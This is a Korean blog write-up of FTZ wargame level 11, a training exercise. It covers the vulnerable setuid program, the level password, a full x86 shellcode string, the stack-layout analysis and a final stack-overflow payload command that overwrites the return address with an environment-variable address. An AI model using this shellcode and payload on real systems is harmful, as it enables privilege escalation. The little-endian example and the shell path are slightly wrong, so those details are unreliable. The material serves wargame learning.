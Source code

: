 ```yaml
---
title: BOF/ ftz-level11
tags: ftz
---
```


11번 포스팅 시작합니다.

FTZ란 Free Training Zone의 약자로 hackerschool에서 배포하는 워게임입니다.  
총 20문제로 구성되어 있으며 각 문제를 격파하여 다음 레벨의 패스워드를 얻는 형식입니다.  
문제를 격파하고 다음 레벨의 bash를 획득하였다면 my-pass로 패스워드를 확인할 수 있습니다.  

사용 linux 명령어  
ls - 파일 내역 출력
cat - 파일 내용 확인  
gcc - gcc컴파일러로 컴파일하도록 하는 명령 
vim - text editor  
cp - 파일 또는 디렉터리 복사 명령  
export - 환경변수 등록 명령  
getenv - 환경변수를 모두 보는 명령  

 [send me email](mailto:jewel7492@gmail.com) if you have any questions.

<!--more-->

---
### FTZ Level 11
**ID : level11**  
**PASSWD : what!@#$?**         

<br />
{% highlight C linenos %}  
#include <stdio.h>
#include <stdlib.h>

int main( int argc, char *argv[] )
{
        char str[256];

        setreuid( 3092, 3092 );
        strcpy( str, argv[1] );
        printf( str );
}

{% endhighlight %}  
<br />
level11부터는 attackme라는 파일이 존재하며 hint는 attackme의 소스가 제공된다.  

**소스분석**  
main에 전달받은 첫 번째 인자(argv[0]은 파일명)를 str에 복사하여 출력하는 소스  
level12의 권한으로 set-uid가 설정되어 있다.  
<br />
level11부터는 쉘코드를 사용하여 공격을 한다.  
what is shellcode? - 주로 기계어 코드로 이루어진 소프트웨어 취약점을 공격하기 위한 코드.  

#### level11에서 사용한 쉘코드
**\x31\xc0\xb0\x31\xcd\x80\x89\xc3\x89\xc1\x31\xc0\xb0\x46\xcd\x80\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80**  
이 쉘코드는 /bin/bash를 실행시키도록 하는 코드이다.  

#### ftz에는 ASLR(메모리 보호기법)이 걸려있다.  
**ASLR은 프로그램을 실행할 때 마다 메모리 주소가 변경되는 메모리 보호기법**  

<br />
![그림1](/assets/ftz/level11/1.PNG)  
권한문제가 없도록 tmp디렉터리에 attackme를 복사하고 attackme의 메모리 구조를 파악하기 위해 gdb를 사용하여 intel방식으로 디스어셈블 한다.   

**어셈블리 분석**  
main+3 line을 보면 264byte의 공간을 메모리에 할당했을을 알 수 있다.  
main+41 line을 보면 str의 주소는 ebp-264이며 str(256Byte)뒤에 8Byte의 dummy값이 있음을 알 수 있다.  

**메모리 구조**  
---|
str(256Byte)
dummy(8Byte)
sfp(4Byte)
ret(4Byte)
...  

<br />
what is sfp? - 스택 베이스 값.  
what is ret? - return address로 다음에 실행할 명령이 위치한 메모리 주소.  

<br />

**main의 ret을 쉘코드가 들어있는 메모리의 주소로 변조한다면 main이 종료될 때 쉘코드가 실행될 것이다.**  

<br />
![그림2](/assets/ftz/level11/2.PNG)  
쉘코드를 환경변수에 등록하고 환경변수의 주소를 ret에 덮는 방식으로 공격을 하자.  
환경변수란? - 운영체제가 참조하는 변수  
SHELLCODE라는 이름의 환경변수를 만들고 그 안에 쉘코드를 넣는다.  

<br />
![그림3](/assets/ftz/level11/3.PNG)  
환경변수의 주소를 얻기 위해 getenv명령을 통해 환경변수의 주소를 출력하는 소스를 작성한다.  

<br />
![그림4](/assets/ftz/level11/4.PNG)  
소스파일을 컴파일하고 실행하여 환경변수의 주소를 얻는다.  

<br />
![그림5](/assets/ftz/level11/5.PNG)  
ret에 접근하기 위해 ret전까지는 아무 값이나 채우고 ret에 환경변수의 주소를 little-endian방식으로 넣는다.  

**리틀 엔디안은 최 하위 바이트 부터 저장하는 방식이다.**  
ex) 0xbffffc11을 리틀 엔디안 방식으로 저장하면 11cfffbf가 된다.  
보통 엔디안 방식은 CPU 아키텍쳐에 따라 다르지만 intel x86, x64, AMD 계열은 리틀엔디안, 모토로라 프로세서들은 빅엔디안을 사용한다.  
현재 시스템의 엔디안방식을 확인하고 싶다면  
echo -n I | od -to2 | head -n1 | awk'{print $2;}' | cut -c6 명령으로 나오는 값이 1이라면 리틀 엔디안, 0이라면 빅엔디안이다.  

<br />

#### 페이로드
./attackme `python -c "print 'A'*268 + '\x11\xfc\xff\xbf'"`